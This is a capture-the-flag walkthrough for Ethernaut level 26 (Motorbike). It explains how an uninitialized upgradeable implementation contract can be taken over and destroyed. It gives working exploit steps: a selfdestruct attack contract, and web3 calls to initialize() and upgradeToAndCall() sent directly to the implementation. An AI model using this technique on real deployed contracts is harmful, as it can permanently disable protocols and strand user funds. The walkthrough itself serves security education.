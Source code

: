 # Ethernaut Level 26 (Motorbike) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 26. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

The goal is the make the implementation contract (Engine), selfdestruct. The nature of this exploit is not so much siphoning funds, but making the protocol unusable and unsalvageable after the exploit.

This exploit arose because of a vulnerability in theOpenZeppelin upgradeability contracts, specifically the Initializable contract. Nothing stopped someone from calling the implementation contract directly, instead of through the proxy, and call `initialize()` (since implementation inherits the Initializable contract), which made him the upgrader of the contract. Then, the exploiter could make a new implementation contract which selfdestructs, and since the implementation contract makes a delegate call to this new implementation, selfdestruct is called in its own context, thereby destroying it, and with it all hopes of salvaging or upgrading the contract to a fixed version.

The solution, thus, involved these exact steps.

#### Solution

1.  Create the new implementation contract with self destruct functionality:

```
contract Attack {
    function end() public {
        selfdestruct(payable(0));
    }
}
```

2.  Call the initialize() function on the implementation contract directly.

- Get the current implementation contract's address from the implementation slot:
    - `await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")`
        The returned value will be 32 bytes, out of which the right most 20 bytes will be the address. Tease that out and append 0x to its left. We get `0x44028acee7d63cddb5c2433ac342702f158f93f3`
- Encode the function signature of the `initialize()` function: `let initializeCall = web3.eth.abi.encodeFunctionSignature("initialize()")`
- Send a transaction to the implementation contract, calling this function: `await web3.eth.sendTransaction({from: player, to: implAddr, data: initializeCall})`

You are now the initializer and thus the upgrader of the implementation contract. Now, to make the upgrade and end call.

3.  Encode the function signature of the `end()` function in our Attack contract, we will call this function in the same transaction in which we change to the new implementation (Attack contract).
    - `let endCall = web3.eth.abi.encodeFunctionSignature("end()")`

- Encode the function call to the `upgradeToAndCall()` function.
    
    ```
    callStr = web3.eth.abi.encodeFunctionCall({
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'newImplementation'
    },{
        type: 'bytes',
        name: 'data'
    }]}, [AttackContractAddr,endCall]);
    ```
    
- Send the transaction with the above function call:
    `await web3.eth.sendTransaction({from: player, to: implAddr, data: callStr})`
    

Success! You have self-destructed the implementation contract!